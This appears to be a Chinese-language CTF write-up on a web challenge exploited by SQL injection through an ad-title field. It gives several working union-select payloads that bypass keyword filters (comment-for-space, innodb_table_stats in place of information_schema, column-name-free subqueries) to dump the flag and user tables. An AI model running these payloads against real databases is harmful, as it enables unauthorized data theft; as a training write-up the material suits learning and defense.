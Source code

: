 ![[Pasted image 20221125153820.png]]

---
首页长这样
![[Pasted image 20221125153836.png]]

---
`POST`的形式
![[Pasted image 20221125154449.png]]

---
尝试使用`admin`注册时提示该用户已被注册
![[Pasted image 20221125155037.png]]
使用用户名`aaa`和密码`123`注册并登录

![[Pasted image 20221125155328.png]]
![[Pasted image 20221125155358.png]]
![[Pasted image 20221125155509.png]]

`POST`内容
![[Pasted image 20221125155832.png]]
![[Pasted image 20221125155519.png]]

广告详情页是`/detail.php?id=xxx`的形式
![[Pasted image 20221125161128.png]]
尝试对`id`进行`sql`注入
无果QAQ
![[Pasted image 20221125161453.png]]
尝试`SSTI`
![[Pasted image 20221125161510.png]]
![[Pasted image 20221125161520.png]]
貌似对标题有效，但大括号还在，估计和`SSTI`无关，更偏向于`+`直接被过滤了，回到`sql`注入试试

当标题为`and`、`or`或`#`时会提示`标题含有敏感词汇`
![[Pasted image 20221125162659.png]]

对于payload `1'`，访问`detail.php`时发现`mysql`报错
![[Pasted image 20221125163216.png]]
确定是`sql`注入

为什么会用广告名进行`sql`查询呢QwQ
猜测后端是直接维护一张广告名和广告`id`的映射表，然后神奇地用广告名来查询广告内容了（下次记得还是用`id`查好，这样就能直接在url上注入了hiahiahia）
用`union select`检查注入点
```sql
1'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'
```
麻了22个字段出题人这是要累死人（恼
![[Pasted image 20221125164232.png]]
注入点在2和3
什么，广告名都能注入的嘛，后端你查询咋写的QAQ，用来查询的字符串合着真的只有查询作用呗

---
那就拿广告名来注入叭
查看当前数据库
```sql
1'/**/union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'
```
![[Pasted image 20221125164609.png]]

查看所有数据库
这里改成`where '1'='1`来补全后面的引号了
```sql
1'/**/union/**/select/**/1,group_concat(schema_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/information_schema.schemata/**/where/**/'1'='1
```
![[Pasted image 20221125164918.png]]
大意了，`information`的`or`被ban了QAQ
好的接下来是学习时间（**悲**

---
![[Pasted image 20221125170222.png]]
```sql
1'/**/union/**/select/**/1,group_concat(database_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/'1'='1
```

---
查看表格
![[Pasted image 20221125170634.png]]
```sql
1'/**/union/**/select/**/1,group_concat(table_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/'1'='1
```
![[Pasted image 20221125170819.png]]

读取FLAG_TABLE内容
这波不知道字段的查询真的惊到我了，`sql`还能这么玩的嘛
```sql
1'/**/union/**/select/**/1,(select/**/group_concat(a)/**/from/**/(select/**/1/**/as/**/a/**/union/**/select/**/*/**/from/**/ctftraining.FLAG_TABLE)n),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```
![[Pasted image 20221125173613.png]]
被骗了.jpg

读取`users`内容
```sql
1'/**/union/**/select/**/1,(select/**/group_concat(c)/**/from/**/(select/**/1/**/as/**/a,2/**/as/**/b,3/**/as/**/c/**/union/**/select/**/*/**/from/**/users)n),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```
![[Pasted image 20221125173943.png]]
学到了学到了QwQ

#Web #HTTP #SQL注入 #绕过 #联合注入